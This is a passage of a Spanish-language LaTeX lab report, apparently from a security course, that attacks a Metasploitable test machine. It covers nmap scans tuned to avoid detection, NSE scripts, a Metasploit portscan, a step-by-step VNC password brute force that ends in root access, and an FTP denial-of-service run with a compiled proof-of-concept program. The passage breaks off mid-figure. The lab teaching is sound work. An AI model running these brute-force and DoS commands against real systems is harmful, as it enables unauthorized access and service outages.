Como muestra la figura \ref{fig:nmap4}, se observa que en dicho fichero encontramos el contenido del escaneo. Por un lado, podemos ver información del usuario que ha invocado el Metasploit. Seguidamente, tenemos el apartado que refiere a los hosts y servicios que se han encontrado en la dirección de subred que se le ha pasado al escaneo. Por último, podemos observar que el grueso del fichero son los módulos del Metasploit.

\begin{figure}[htbp]
\centering

\includegraphics[width=1.0\textwidth]{./images/Atacante_scaner_y_BBDD.png}
\caption{Atacante\_scaner\_y\_BBDD.}
\label{fig:nmap4}
\end{figure}

% #######################   Wireshak: trazas   ##################################

\subsubsection{Wireshak: trazas}

A continuación mostramos algunas trazas obtenidas tras ejecutar ciertos comandos con NMAP.

\begin{itemize}
  \item \texttt{\$ nmap —scan-delay 1000ms -p 20-30 metasploitable}. En el host \texttt{metasploitable} se lanza un escaneo de puertos cada segundo a un puerto diferente entre los puertos 20 al 30, como muestra la figura \ref{fig:nmap5}. El fin principal de realizar un escaneo de puertos de esta forma es evitar ser detectado por la seguridad que pueda tener la subred.

  \begin{figure}[htbp]
  \centering
  
\includegraphics[width=1.0\textwidth]{./images/Atacante_scaner_y_BBDD.png}
  \caption{Atacante\_wireshar\_scaneo\_delay.}
  \label{fig:nmap5}
  \end{figure}

  \item \texttt{\$sudo nmap -sS -mtu 24 -p 80 metasploitable 192.168.62.102}. En el hots \texttt{metasploitable} y en la IP \texttt{192.168.62.102} se lanza un escaneo al puerto 80 con el bit SYN activado, como se muestra en la figura \ref{fig:nmap6} Lo que se hace es enviar un paquete SYN, como si se fuera a abrir una conexión real y después se espera una respuesta. Si se recibe un paquete SYN/ACK esto indica que el puerto está abierto, mientras que si se recibe un RST (reset) indica que no hay nada escuchando en el puerto. Si no se recibe ninguna respuesta después de realizar algunas retransmisiones o se recibe un ICMP entonces el puerto se marca como filtrado.

  \begin{figure}[htbp]
  \centering
  
\includegraphics[width=1.0\textwidth]{./images/Atacante_scaner_y_BBDD.png}
  \caption{Atacante\_wireshar\_scaneo\_delay.}
  \label{fig:nmap6}
  \end{figure}
\end{itemize}

% #######################   Scripts NMAP   ##################################

\subsection{Scripts NMAP}
\subsubsection{Scripts /usr/share/nmap/scripts}
En la instalación de NMAP se crea el directorio \textit{/usr/share/nmap/scripts}, este directorio contiene una lista de scripts implementados por otros usuarios y que están diseñados para ser invocados desde el comando nmap. A continuación se describen algunos:
\begin{itemize}
\item \texttt{http-git.nse}: Realiza una conexión al puerto 80 de la víctima en busca de un servidor web activo, si el puerto está abierto, se intenta localizar un directorio \emph{.git}. La existencia de este directorio implica que la víctima está realizando un control de versiones, por tanto, el siguiente paso que realiza el script es la búsqueda de coincidencias en \emph{Github}, si se encuentran coincidencias (por un perfil o proyecto público), se muestran un mensaje al usuario con toda la información que se ha podido extraer de la víctima de su repositorio.
\item \texttt{smb-server-stats.nse}: Este script explota una un fallo de \emph{Samba} corriendo sobre sistemas operativos de Windows, este vulnerabilidad permite que un usuario externo pueda solicitar los datos estadísticos del servicio, recopilando así valiosa información de los archivos que se comparten.
\item \texttt{ssh2-enum-algos.nse}: Devuelve los algoritmos de cifrado y compresión que tiene implementados la víctima. Esta información puede ser muy útil para reducir considerablemente el tiempo de los ataques por fuerza bruta.
\item \texttt{dhcp-discover.nse}: Script que recopila información del servidor DHCP de la red, se imprimirá por pantalla al usuario el valor de cada uno de los campos que se obtienen del DHCP (Gateway, mácara de subred, router, nombre de dominio, etc...). Para el funcionamiento del script no es necesario consumir una dirección IP.
\end{itemize}
\subsubsection{Realización de script básico}
Se pueden crear nuevos scripts adaptados a nuestras necesidades, que automaticen tareas habituales, o repetitivas. En la siguiente url \url{http://nmap.org/book/nse-tutorial.html} se describe la estructura que debe tener el script. Para poner en práctica este apartado, a continuación, incluye el contenido de un script realizado por nosotros, las acciones que realiza son las siguientes:
\begin{itemize}
\item Comprobar si el equipo objeto tiene el puerto 80 abierto (el número de puerto se puede cambiar a la hora de ejecutar el comando)
\item En el caso de que se cumpla el paso anterior, se entiende que existe un servidor web en el equipo, por tanto, se solicita la página \textit{index.html}, dicha página se crea por defecto en los navegadores web.
\item La página web descargada se almacena en un fichero con el mismo nombre \textit{index.html}
\end{itemize}
Para ejecutar el script, se debe escribir el siguiente comando:
\begin{verbatim}
	$ nmap -p 80 <ip> --script=http-index
\end{verbatim}
\lstinputlisting[breaklines]{doc/http-index.nse}
El script contiene un control de errores, por lo que se mostrará uno de los siguientes resultados:
\begin{itemize}
	\item ''ERROR: Fallo al obtener la url index.html"
	\item ''ERROR: Fallo al crear/abrir el fichero index.html"
	\item ''index.html Obtenido correctamente!"
\end{itemize}

% #######################   COMANDO PORTSCAN   ##################################

\subsubsection{Comando Portscan}
Accedemos a la consola de Metasploit con el comando \emph{\$msfconsole}, para encontrar las modalidades existentes de Portscan, lanzamos la búsqueda con \emph{\$search portscan}, el resultado se puede ver en la figura \ref{fig:meta2}.

\begin{figure}[htbp]
\centering

\includegraphics[width=1.0\textwidth]{./images/Atacante_metasploit_portscan_search.png}
\caption{Metasploit Portscan Search}
\label{fig:meta2}
\end{figure}

\begin{enumerate}
\item Para este ejemplo haremos uso de \emph{auxiliary/scanner/portscan/tcp}, para ello, lo seleccionamos ejecutando \emph{\$use auxiliary/scanner/portscan/tcp}.
\item Visualizamos los diferentes parámetros de configuración que permite con el comando \emph{\$show options}.
\item Ajustamos el número de hilos y la ip de la víctima.
\item Lanzamos el escaneo con el comando \emph{\$run}. Se muestra el resultado de la ejecución en la imagen \ref{fig:meta1}.
\item El funcionamiento del comando \emph{portscan} es muy similar al de Nmap, con la ventaja de poder ajustar el número de hilos que queremos dedicar al escaneo.
\end{enumerate}

\begin{figure}[htbp]
\centering

\includegraphics[width=1.0\textwidth]{./images/Atacante_metasploit_portscan.png}
\caption{Metasploit Portscan}
\label{fig:meta1}
\end{figure}

% #######################   EXPLOTAR VULNERABILIDADES   ##################################

\clearpage
\section{Explotar Vulnerabilidades}
\rhead[\thepage]{\thesection. Explotar Vulnerabilidades}

% #######################   INSTALACIÓN DE LA INTERFAZ GRÁFICA   ##################################

\subsection{Instalación de la interfaz gráfica}
Para usuarios que no son expertos en el uso de Metasploit, se recomienda el uso de la interfaz gráfica del programa, que se puede descargar desde el \href{https://www.rapid7.com/products/metasploit/download/}{siguiente enlace}. La instalación es muy simple en Linux, basta con descargarse el programa, convertirlo en ejecutable (\texttt{\$ chmod 777 metasploit-latest-linux-x64-installer.run}) y ejecutar el fichero (\texttt{.run}). Se abrirá un instalador gráfico intuitivo. \\

Para hacer uso del programa, abrimos un navegador web y accedemos a la URL que se nos indicó durante la instalación, si no hemos modificado las opciones por defecto, será \emph{https://localhost:3790/}. En la figura \ref{fig:graf1} podemos ver la apariencia.

\begin{figure}[htbp]
\centering

\includegraphics[width=1.0\textwidth]{./images/interfaz_metasploit/metasploit_grafico.png}
\caption{Metasploit Gráfico}
\label{fig:graf1}
\end{figure}

Será necesario registrarnos para poder hacer uso del programa (figura \ref{fig:graf2}). \\

\begin{figure}[htbp]
\centering

\includegraphics[width=1.0\textwidth]{./images/interfaz_metasploit/grafico_registro.png}
\caption{Metasploit Gráfico Registro}
\label{fig:graf2}
\end{figure}

Dispondremos de un gran número de opciones para obtener información de la víctima y atacarla (figura \ref{fig:graf3}). El uso de la interfaz es muy cómodo e intuitivo, se pueden realizar todas las operaciones con ''clicks'' de ratón, como la selección de la víctima, el ataque a relizar, etc... Para un uso avanzado, uso de scripts y ciertas opciones, es necesario ser un usuario \emph{plus}, hay que pagar.

\begin{figure}[htbp]
\centering

\includegraphics[width=1.0\textwidth]{./images/interfaz_metasploit/grafico_opciones.png}
\caption{Metasploit Gráfico Opciones}
\label{fig:graf3}
\end{figure}

% #######################   VNC POR FUERZA BRUTA   ##################################

\subsection{Fuerza bruta}
A continuación, se muestra un ataque al servicio VNC por \emph{fuerza bruta}. La fuerza bruta, consiste autenticarse usando diferentes contraseñas hasta que se encuentra la correcta, estas contraseñas pueden generarse de forma aleatoria o se puede hacer uso de un \emph{diccionario}. \\

Un diccionario es un fichero de texto con una lista de contraseñas, estas contraseñas pueden ser de la lista de contraseñas más habituales o puede ser una lista especializada, contraseñas que los fabricantes ponen a sus dispositivos por defecto, bien basada en un algoritmo que ya ha sido descubierto o que todos los dispositivos tengan la misma.

\begin{enumerate}
	\item Realizamos un escaneo de puertos para verificar que el de VNC está abierto. Con NMAP se ve claramente, indica el nombre de servicio.
	\begin{verbatim}
		$ sudo nmap metasploitable
	\end{verbatim}

	\item Accedemos a la consola de Metasploit.
		\begin{verbatim}
			$ sudo msfconsole
		\end{verbatim}

	\item Realizamos una búsqueda de los módulos relativos a VNC.
		\begin{verbatim}
			msf > search vnc
		\end{verbatim}

	\item Utilizaremos el módulo \emph{vnc\_login}, lo selecionamos.
		\begin{verbatim}
			msf > use auxiliary/scanner/vnc/vnc_login
		\end{verbatim}

	\item Fijamos los parámetros del ataque. Figura \ref{fig:vnc1}.
		\begin{enumerate}
			\item Máquina objetivo \emph{metasploitable}.
			\item Número de hilos de ejecución 20.
			\item Velocidad de prueba de credenciales.
		\end{enumerate}
		\begin{verbatim}
			msf auxiliary(vnc\_login) > set RHOSTS metasploitable
			msf auxiliary(vnc\_login) > set THREADS 20
			msf auxiliary(vnc\_login) > set BRUTEFORCE_SPEED 1
		\end{verbatim}

\begin{figure}[htbp]
\centering

\includegraphics[width=1.0\textwidth]{./images/vnc/parametros_ataque_vnc.png}
\caption{Parámetro ataque VNC.}
\label{fig:vnc1}
\end{figure}

	\item Lanzamos el ataque.
		\begin{verbatim}
			msf auxiliary(vnc\_login) > run
		\end{verbatim}

	\item Como resultado, se muestra el resultado del ataque y las credenciales en caso de éxito. Como se puede ver en la figura \ref{fig:vnc1}, la contraseña de acceso es \emph{password}.

	\item Para la conexión al equipo remoto necesitamos un cliente de VNC, podemos instalar \emph{vinagre}, que se encuentra en el repositorio de Ubuntu. Lo iniciamos en el mismo comando.
		\begin{verbatim}
			$ sudo apt-get install vinagre && vinagre
		\end{verbatim}

	\item En la ventana que aparece, introducimos el equipo al que nos queremos conectar, en nuestro caso \emph{metasploitable} y pulsamos \emph{Conectar}. Figura \ref{fig:vnc2}.

\begin{figure}[htbp]
\centering

\includegraphics[width=0.7\textwidth]{./images/vnc/equipo_acceso.png}
\caption{Vinagre.}
\label{fig:vnc2}
\end{figure}

	\item Se nos solicitará la contraseña, introducimos la obtenida en el ataque \emph{password} y pulsamos en \emph{Autenticar}. Figura \ref{fig:vnc3}.

\begin{figure}[htbp]
\centering

\includegraphics[width=0.7\textwidth]{./images/vnc/credenciales_acceso.png}
\caption{VNC credenciales acceso.}
\label{fig:vnc3}
\end{figure}

	\item Llegados a este punto ya tendremos establecida una conexión con la víctima vía VNC (Figura \ref{fig:vnc4}). Este puede ser un buen ataque para obtener ficheros de la víctima o monitorizar sus actividades. \\

  Aunque en este caso accedemos como usuario root, lo más habitual es que el acceso vía VNC solo esté habilitado para usuarios con un bajo nivel de permisos.

\begin{figure}[htbp]
\centering

\includegraphics[width=1\textwidth]{./images/vnc/vnc_conectado.png}
\caption{Conexión VNC.}
\label{fig:vnc4}
\end{figure}

\end{enumerate}

% #######################   Denegación de servicio ##################################

\clearpage
\subsection{Denegación de servicio}

Una denegación de servicio (DoS) es un ataque a un sistema o red que causa que un servicio o recurso sea inaccesible a los usuarios legítimos. \\

Los ataques DoS se generan mediante la saturación de los puertos con múltiples flujos de información, haciendo que el servidor se sobrecargue y no pueda seguir prestando su servicio. \\

En este caso, vamos a hacer una denegación de servicio al servidor ftp de la víctima.

\begin{enumerate}
	\item Realizamos un escaneo de puertos para verificar que el puerto ftp de la víctima está abierto.

\begin{verbatim}
$ sudo nmap metasploitable
\end{verbatim}

	\item Necesitamos obtener un usuario y contraseña para poder acceder al servidor ftp. Para este paso, podemos hacer uso de la fuerza bruta del apartado anterior o bien conectarnos por telnet a la víctima y observar que ahí tenemos acceso a un usuario y contraseña. Obtenemos el siguiente usuario y contraseña.

\begin{verbatim}
USER: user
PASS: user
\end{verbatim}

	\item Compilamos y ejecutamos el código que va a producir la denegación de servicio, pasándole como parámetros la IP de la víctima, el usuario y la contraseña válidos que hemos obtenido. Este código genera múltiples conexiones ftp a la víctima, además de generar cada vez un buffer de 4096 bytes con basura, pero que el servidor ftp de la víctima tendrá que analizar. Todo ello ocasiona que el servidor ftp de la víctima se colapse y provoque la no conexión de otros usuarios.

\begin{verbatim}
$ gcc -o vspoc232 vspoc232.c
$ ./vspoc232 192.168.62.189 21 user user 1
\end{verbatim}

    En la figura \ref{fig:metade1} podemos observar cómo han sido necesarias 287 peticiones para ocasionar la denegación de servicio.

    %%% Importar fichero
    \lstinputlisting[breaklines]{doc/MetaDe.c}

    \begin{figure}[htbp]
    \centering
    \subfigure[Ataque a  la víctima]
    {
\includegraphics[width=0.7\textwidth]{./images/MetaDe3.png}}
